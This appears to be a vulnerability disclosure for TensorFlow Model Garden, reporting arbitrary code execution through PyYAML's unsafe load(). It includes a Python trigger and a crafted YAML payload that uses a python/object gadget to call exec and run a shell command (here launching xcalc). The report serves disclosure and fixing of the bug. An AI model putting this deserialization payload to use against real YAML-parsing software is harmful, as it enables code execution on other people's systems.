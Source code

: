 # Description
**Arbitrary Code Excecution** in Tensorflow/Models.The TensorFlow Model Garden is a repository with a number of different implementations of state-of-the-art (SOTA) models and modeling solutions for TensorFlow users. We aim to demonstrate the best practices for modeling so that TensorFlow users can take full advantage of TensorFlow for their research and product development
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **pyyaml**
# Exploit code
**Python File**
```python
import params_dict
exploit = params_dict.read_yaml_to_params_dict('exploit.yml')
print(exploit)
```
**YAML File**
```yml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
```
# POC
* place the exploit codes **models/hyperparameters**
* Run the python code 

![](https://cdn.discordapp.com/attachments/749019614352244777/784023167470796810/Screenshot_from_2020-12-03_17-17-46.png)

